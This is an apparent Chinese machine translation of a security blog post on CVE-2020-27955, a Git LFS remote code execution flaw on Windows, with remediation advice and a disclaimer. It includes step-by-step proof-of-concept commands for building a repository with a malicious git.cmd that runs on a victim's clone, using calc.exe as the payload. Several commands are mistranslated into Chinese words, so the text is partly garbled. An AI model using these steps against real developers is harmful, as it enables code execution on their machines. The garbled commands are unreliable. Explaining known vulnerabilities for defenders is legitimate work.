








# 针对远程代码执行的 Git LFS 漏洞| CVE-2020–27955

> 原文：<https://infosecwriteups.com/git-lfs-exploit-for-remote-code-execution-cve-2020-27955-e8f4786163c3?source=collection_archive---------1----------------------->

## 针对 Windows 开发人员的红色警报

GIT LFS 上的远程代码执行

2020 年 11 月 5 日，在一个被称为 GIT LFS 的流行 Git 扩展上发现了一个严重的漏洞。成功利用此漏洞会导致在目标机器上远程执行代码。如果您或您的组织使用 git 对您的代码和存储库进行源代码/版本控制，那么您应该考虑到这个问题会对您的资产带来潜在的严重风险。

在这篇文章中，我们将学习如何手动利用 RCE 漏洞，并了解 git 和 git-lfs 的基础，重现问题的步骤及其补救措施。

**简介:**

Git 是 SDLC 期间最常用的源代码版本控制开源工具。它有助于开发人员在任何一组模块或代码库中相互跟踪和协调。

来源:[https://git-scm.com/](https://git-scm.com/)

当存储库的大小超过兆字节时，git 的性能会降低，当存储几兆字节的文件时，GIT 会变得相对较慢。为了克服这个限制，Git 提供了一个名为 GIT LFS 的大文件版本扩展。Git 大文件存储(LFS)是由 GitHub 创建的开源工具，它有助于跟踪 git 存储库中的大文件，而实际的文件内容存储在外部。

来源:[https://git-lfs.github.com/](https://git-lfs.github.com/)

**漏洞:**

在 https://nvd.nist.gov/vuln/detail/CVE-2020-27955 的 Git-LFS (git-lfs)版本<=2.12 on the windows platform only. The payloads get executed as soon as the victim clones the malicious repository and have the vulnerable version of git-lfs running on their system. The attacker must add a malicious file named git.bat/git.cmd/git.vbs/git.exe (any windows executable) in the repo. And the malicious git is executed instead of the original git from the clone path.

Source: [上发现了远程代码执行问题](https://nvd.nist.gov/vuln/detail/CVE-2020-27955)

受影响的产品有 Git、GitHub CLI、GitHub Desktop、Visual Studio、GitKraden、SmartGit、Sourcetree 等。

**识别漏洞:**
在 windows 上使用以下命令。如果安装了易受攻击的 git-lfs 工具，则会提示您使用计算器应用程序。

1.mkdir C:\Windows\Temp\poc

2.cd C:\Windows\Temp\poc

3.回声 calc.exe > git . cmd

4.git-lfs 轨道

测试本地计算机上的漏洞

**在目标系统上获得 RCE**

对于远程代码执行，请遵循以下步骤

作为攻击者:

1.  在 GitHub 上创建一个资源库

创建存储库

2.cd /dev/shm

3.吉特克隆人[https://github.com/attacker/poc.git](https://github.com/attacker/poc.git)。

4.回声 calc.exe > git . cmd

5.git lfs 音轨" *。dat "

6.echo "Junk" > large.dat

7.git add -A

8.git commit -m "POC "

9.git push -u origin master -f

制造有效载荷

受害者:

1.  https://github.com/attacker/poc.git 的饭桶克隆人。

执行恶意 git

我还为此创建了一个视频概念验证。如果你有兴趣，也可以看看视频。

**补救:**

更新并保持 git 版本高于 2.29.2，git-lfs 扩展高于 2.12

 [## 漏洞利用报告

### CTF 玩家、安全专家、Bug 赏金猎人、白帽黑客和渗透测试者的博客你好，我是…

www.youtube.com](https://www.youtube.com/@Exploit-Writeup/) 

**免责声明:**

我既没有发现这个严重的漏洞，也没有为 CVE(CVE-2020–27955)居功。我只是在分析了各种博客和公共论坛上的描述后制作了这个视频，以帮助安全爱好者了解这个问题。我对使用此漏洞给组织造成的任何损失不负任何责任&我建议用户在没有组织书面同意的情况下不要利用此漏洞，因为它可能会使组织暴露于其他黑客的攻击之下。